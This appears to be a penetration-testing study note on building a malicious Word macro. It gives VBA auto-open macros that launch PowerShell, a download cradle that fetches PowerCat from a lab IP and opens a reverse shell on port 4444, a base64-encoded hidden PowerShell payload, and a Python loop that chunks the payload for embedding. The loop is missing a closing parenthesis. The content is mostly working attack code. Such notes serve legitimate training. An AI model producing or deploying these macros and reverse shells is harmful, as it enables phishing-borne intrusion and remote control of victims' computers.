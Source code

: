## Using MACROS

Save the document as a .doc document (Word 97-2003 option)
navigate to macros and use the following code
one for Auto open the document, the other for Opening the document, and last to run the script that you wish the document to run


![[Pasted image 20231009101852.png]]

Sub AutoOpen()

 MyMacro

End Sub

Sub Document_Open()

 MyMacro
 
End Sub

Sub MyMacro()

 CreateObject("Wscript.Shell").Run "powershell"

End Sub ^655ce0


PowerShell download cradle and PowerCat reverse shell
```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

Encode it with base64 UTF-16LE

This Loop will turn any that is on the **str** into 50 character division

EXAMPLE

str = "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4xODEvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4xODEgLXAgNDQ0NCAtZSBwb3dlcnNoZWxs"

n = 50

for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"'



 
^99cc34
